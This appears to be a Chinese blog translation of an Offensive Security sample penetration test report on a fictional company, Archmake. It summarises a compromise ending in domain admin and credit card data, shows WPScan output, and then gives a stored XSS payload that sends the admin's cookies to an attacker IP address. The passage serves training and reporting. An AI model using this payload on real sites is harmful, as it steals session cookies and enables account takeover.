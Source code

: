```yaml
---
layout: post
title: "offensive security pentest report 翻译"
description: ""
category: 渗透测试
tags: [report]
---
```

{% include JB/setup %}

## 摘要 ##

Offensive security已经被授权对Archmake的外部网站进行一次渗透测试.测试评估的方式是模拟恶意的攻击者对公司进行目的明确的渗透.主要测试目标包括:

1, 确认一个远程的攻击者能否穿透Archmake的安全防线.

2, 评估安全攻击对公司的订单系统,客户的保密信息以及Archmake其他信息系统可能造成的影响.



## 结果概述 ##

在初期的信息搜集阶段,发现Archmake公司仅仅只有一个web网站和一个邮件服务器.可供攻击的服务比较少.

在对网站的安全评估中,发现它安装了一个有漏洞的WordPress插件.成功利用这个漏洞,取得了WordPress的管理权限.然后反弹了一个交互式的shell并成功提到root权限.

获取了网站服务器的权限之后,开始对内网进行渗透,经过一番尝试,成功获取到了域管理员的权限.之后对内网进行拓扑分析,发现了内网的公司数据库并成功控制.这个数据库不仅存储了订单信息和客户资料,还保存了信用卡相关信息.通过控制这个系统,攻击者可以直接从公司账户提取现金.

## 测试过程 ##

# WordPress漏洞利用 #

在对目标系统进行搜集的时候发现网站采用了wordpress 3.3.1搭建.我们在对WordPress进行代码审计的同时,用WPScan扫描了目标网站,发现一个不安全的插件:


	./wpscan.rb --url www.Archmake.com --enumerate p
	____________________________________________________
	__
	_______
	_____
	\ \
	/ / __ \ / ____|
	\ \ /\ / /| |__) | (___
	___ __ _ _ __
	\ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \
	\ /\ / | |
	____) | (__| (_| | | | |
	\/ \/
	|_|
	|_____/ \___|\__,_|_| |_| v1.1
	WordPress Security Scanner by ethicalhack3r.co.uk
	Sponsored by the RandomStorm Open Source Initiative
	_____________________________________________________
	| URL: http://www.Archmake.com/
	| Started on Tue Jan 24 18:44:49 2012
	[!] The WordPress theme in use is called "twentyeleven".
	[!] The WordPress "http://www.Archmake.com/readme.html" file exists.
	[!] WordPress version 3.3.1 identified from meta generator.
	[+] Enumerating installed plugins...
	Checking for 2892 total plugins... 100% complete.
	[+] We found 2 plugins:
	Name: relevanssi
	Location: http://www.Archmake.com/wp-content/plugins/relevanssi/
	Directory listing enabled? Yes.
	Name: relevanssi
	Location: http://www.Archmake.com/wp-content/plugins/relevanssi/
	Directory listing enabled? Yes.
	[+] There were 1 vulnerabilities identified from the plugin names:
	[!] Relevanssi 2.7.2 Wordpress Plugin Stored XSS Vulnerability
	* Reference: http://www.exploit-db.com/exploits/16233/
	[+] Finished at Tue Jan 24 18:45:30 2012	  


正如WPScan扫描结果展示的一样,这个Relevanssi插件存在一个XSS漏洞.成功利用这个漏洞可以窃取到管理员的cookies.

第一步,我们在Archmake网站的搜索栏中插入如下代码:

	<script>new	Image().src="http://172.16.40.204/p.php?cookie="+document.cookie; </script>

![pic]({{site.img_url}}offensive1.png)


